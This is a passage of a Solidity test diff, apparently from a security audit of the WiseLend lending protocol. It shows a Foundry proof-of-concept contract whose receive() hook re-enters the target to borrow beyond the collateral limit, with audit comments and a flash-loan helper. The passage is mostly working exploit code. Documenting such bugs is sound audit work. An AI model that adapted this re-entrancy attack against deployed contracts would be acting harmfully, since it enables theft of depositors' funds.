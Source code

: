 ```diff
+        vm.deal(address(this), amount);
+    }
+
+    function helper_returnFlashLoan(uint256 amount) internal {
+        // in a real attack, we return the flash loan back to Aave/Balancer here
+        (bool success,) = address(0).call{value: amount}("");
+        require(success);
+        // consider the loan returned
+    }
+}
+
+contract Killer2 is Test {
+    address targetAddr;
+    IWiseLend target;
+    uint256 counter;
+    uint256 nftId = 1;
+
+    constructor(address _target) payable {
+        targetAddr = _target;
+        target = IWiseLend(_target);
+    }
+
+    receive() external payable { 
+        counter++;
+        if (counter == 1) {
+            // @audit : make this call to set `sendingProgress` to `false`
+            (bool s,) = payable(targetAddr).call{value: 0}("");
+            require(s);
+
+            // @audit : can re-enter now and borrow beyond the limit !
+            target.borrowExactAmountETH(nftId, 99 ether);
+        }
+        else if (counter == 2) {
+            (bool s,) = payable(targetAddr).call{value: 0}("");
+            require(s);
+
+            assertEq(address(this).balance, 100 ether, "couldn't borrow 100%");
+            console.log("Successfully borrowed entire 100 ether!");
+
+            // @audit-info : do some arbitrage stuff with this flash-borrowed loan, within a single tx
+            // Step a: Some external txs
+            // Step b: txs completed, control returns back here now
+
+            // return the "extra" borrowed amount of 24 ether out of the total 100 ether borrowed
+            target.paybackExactAmountETH{value: 24 ether}(nftId);
+        }
+    }
+}
+
+interface IWiseLend {
+    function depositExactAmountETH(uint256 _nftId) external payable;
+    function withdrawExactAmountETH(uint256 _nftId, uint256 _borrowAmount) external;
+    function borrowExactAmountETH(uint256 _nftId, uint256 _amount) external;
+    function paybackExactAmountETH(uint256 _nftId) external payable;
+    function _getValueUtilization(address _poolToken) external view returns(uint256);
+    function _getBorrowRate(address _poolToken) external view returns(uint256);
 }
```
